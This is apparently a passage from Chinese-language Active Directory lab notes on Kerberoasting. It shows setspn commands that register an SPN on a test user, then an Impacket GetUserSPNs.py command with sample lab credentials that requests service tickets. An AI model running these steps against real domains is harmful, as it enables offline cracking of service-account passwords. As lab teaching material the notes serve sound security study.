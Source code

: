 

其实用户帐户可以是服务帐户，机器帐户也可以是服务帐户。它们是否属于服务帐户取决于该帐户是否在域内注册了SPN



新建服务账户实验：

win2012 dc 192.168.10.8：

```
#通过如下命令给hack用户注册test/test SPN。
#查询hack用户注册的SPN
setspn -L hack

#给hack用户注册test/test SPN
setspn -S test/test hack
```

此时，hack用户就是一个服务帐户了，因为它在域内提供了SPN为test/test的服务。我们通过GetUserSPNs.py脚本执行如下命令就能请求服务帐户hack下注册的所有SPN的服务票据了！

kali：

```bash
GetUserSPNs.py -request -dc-ip 192.168.10.8 xiaodi.local/hack:P@ss1234
```

<img src=".\图片\Snipaste_2023-09-15_16-37-18.png" alt="Snipaste_2023-09-15_16-37-18" style="zoom:80%;" />

这就是 Kerberoasting 攻击的基础



查询服务账户：
